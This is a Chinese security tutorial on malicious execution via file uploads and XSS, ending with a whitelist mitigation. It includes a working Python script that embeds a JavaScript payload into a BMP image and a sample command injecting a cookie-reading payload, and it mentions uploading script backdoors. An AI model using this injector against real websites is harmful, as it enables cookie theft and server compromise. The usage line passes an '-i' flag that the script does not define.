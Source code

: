 ## 恶意执行
用户上传文件，例如：图片或是视频。 如果没有效的安全措施，包含恶意指令的文件会被上传到服务器并执行。

### 使用场景
上传数据，恶意执行无权访问的操作。

### 漏洞分析
恶意执行很多体现在数据上传上，比如XSS，上传脚本都属于恶意执行。
例如：
```
<form action="search.php">
    <input type="text" name="search" />
    <button name="submit">submit</button>
</form>
```
在一个搜索框里面提交javascript、html等脚本数据，如果没有xss防御就会造成xss等攻击，这就是恶意执行。
如果允许用户上传文件数据，可能会造成执行恶意脚本。例如利用bmp图片文件执行xss。
例如：
在BMP文件末尾做以下修改

（1）\xFF

（2）\x2A\x2F,对应的js中的注释符号*/

（3）\x3D\x31\x3B,对应的=1;  是为了伪造成BMP格式

（4）定制的JS代码

下面这段代码来源网络：
```
#!/usr/bin/env python2.7
import os
import argparse
def injectFile(payload,fname):
        f = open(fname,"r+b")
        b = f.read()
        f.close()

        f = open(fname,"w+b")
        f.write(b)
        f.seek(2,0)
        f.write(b'\x2F\x2A')
        f.close()

        f = open(fname,"a+b")
        f.write(b'\xFF\x2A\x2F\x3D\x31\x3B')
        f.write(payload)
        f.close()
        return True

if __name__ == "__main__":
        parser = argparse.ArgumentParser()
        parser.add_argument("filename",help="the bmp file name to infected")
        parser.add_argument("js_payload",help="the payload to be injected. For exampe: \"alert(1);\"")
        args = parser.parse_args()
        injectFile(args.js_payload,args.filename)
```
运行脚本，将指定的JS代码写入到正常的BMP图片中
格式：python 脚本名 -i 正常BMP格式图片 JSPayload
python BMPinjector.py -i 1.bmp "alert(document.cookie);"

```
<html>
<head><title>Opening an image</title></head>
<body>
<img src="1.bmp"\>
<script src="1.bmp"></script>
</body>
</html>
```
这样上传一个图片，如果文件没做安全检测就会造成里面的代码执行。

如果没有使用白名单或黑名单的方式限制文件类型，可能会造成脚本直接被上传执行。
比如上传一个php、jsp、asp、py等脚本。
就可以直接上传脚本后门控制服务器了。

### 危害
造成XSS攻击或者上传一个脚本后门控制服务器。

### 解决方案
提交的数据使用白名单方式过滤，上传的文件类型做严格的限制。